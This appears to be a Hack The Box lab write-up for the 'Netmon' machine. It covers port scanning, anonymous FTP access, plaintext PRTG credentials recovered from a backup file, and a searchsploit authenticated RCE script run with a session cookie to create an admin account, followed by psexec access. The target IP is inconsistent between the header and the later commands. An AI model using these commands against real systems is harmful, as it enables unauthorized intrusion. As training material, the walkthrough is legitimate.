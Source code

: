 # HTB Netmon

**Machine Information**

	IP : 10.10.10.98
	OS : Windows

### Reconnaissance

**Rustscan**

Start by running a port scan using `rustscan`.

```
rustscan -a 10.10.10.98 -- -sC -sV
```

```
PORT      STATE SERVICE      REASON  VERSION
21/tcp    open  ftp          syn-ack Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_11-10-23  10:20AM       <DIR>          Windows
80/tcp    open  http         syn-ack Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479
|_http-server-header: PRTG/18.1.37.13946
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        syn-ack Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack Microsoft Windows RPC
49668/tcp open  msrpc        syn-ack Microsoft Windows RPC
49669/tcp open  msrpc        syn-ack Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

### Getting a Foothold

**PRTG Bandwidth Monitor**

Looking at the Nmap results we can see a version number for "Paessler PRTG bandwidth monitor". Checking `searchsploit` we can see a potential Authenticated RCE.

```
searchsploit prtg
```

```
PRTG Network Monitor 18.2.38 - (Authenticated) Remote Code Execution
```

**FTP**

We don't have credentials yet but the FTP server does not require any. Connect to the FTP server as an anonymous user.

```
ftp 10.10.10.152
```

Exploring the files we can retrieve the `user.txt` file from the following directory.

```
C:\Users\Public\Desktop\user.txt
```

### Privilege Escalation

After exploring the FTP server more we can find where the configuration files for "Paessler PRTG bandwidth monitor" are stored. Check the following directory.

```
C:\ProgramData\Paessler\PRTG Network Monitor
```

In this folder will be a `.dat`, `.old`, and `.old.bak` file to download. Investigating each of the files will find some unencrypted user credentials in `PRTG Configuration.old.bak`. We can attempt to login into the PRTG Network Monitor application, but it will fail.

**Remote Code Execution**

The password has a year in it and was found in a backup so enumerate the password to gain access. With credentials we can now try the authenticated RCE exploit from earlier. 
Reading the instructions we need to sign in and copy our authenticated cookie. Once we have that run the following command to create a new Administrator user on the target system.

```
./46527.sh -u http://10.10.10.152 -c "OCTOPUS1813713946=e0MyRjcwRjlBLUZERkYtNEZFOS04QjUxLUZGODkzQkQ1QzA3MH0%3D"
```

If this completes successfully we can connect to the target machine using `psexec`.

```
impacket-psexec pentest@10.10.10.152
```

Grab the flag.

```
type C:\Users\Administrator\Desktop\root.txt
```

